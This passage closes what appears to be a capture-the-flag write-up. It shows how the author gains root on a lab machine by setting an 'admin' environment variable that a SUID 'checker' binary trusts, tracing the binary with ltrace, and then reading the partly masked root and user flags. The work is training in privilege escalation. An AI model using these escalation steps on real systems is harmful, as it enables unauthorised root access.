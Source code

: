 So this file is definitively looking for an environment variable called `admin`. Let's try to set this up and run again and see what happens.

````commandline
www-data@blog:/home/bjoel$ export admin=1 
export admin=1
www-data@blog:/home/bjoel$ ltrace checker
ltrace checker
getenv("admin")                                  = "1"
setuid(0)                                        = -1
www-data@blog:/home/bjoel$ checker
checker
root@blog:/home/bjoel#
````

We are `root` user now! So let's first grab the `root.txt` flag.

````commandline
root@blog:/home/bjoel# ls /root/     
ls /root/
root.txt
root@blog:/home/bjoel# cat /root/root.txt
cat /root/root.txt
9a*****18bef9bfa7ac28c135*****18
`````

We should not forget to grab the `user.txt` flag too.

````commandline
root@blog:/home/bjoel# ls /media/usb/
ls /media/usb/
user.txt
root@blog:/home/bjoel# cat /media/usb/user.txt
cat /media/usb/user.txt
c8*****9aae571f7af486492b*****b7
````

Mission accomplished!

Hopefully you enjoyed as much as I did :-)
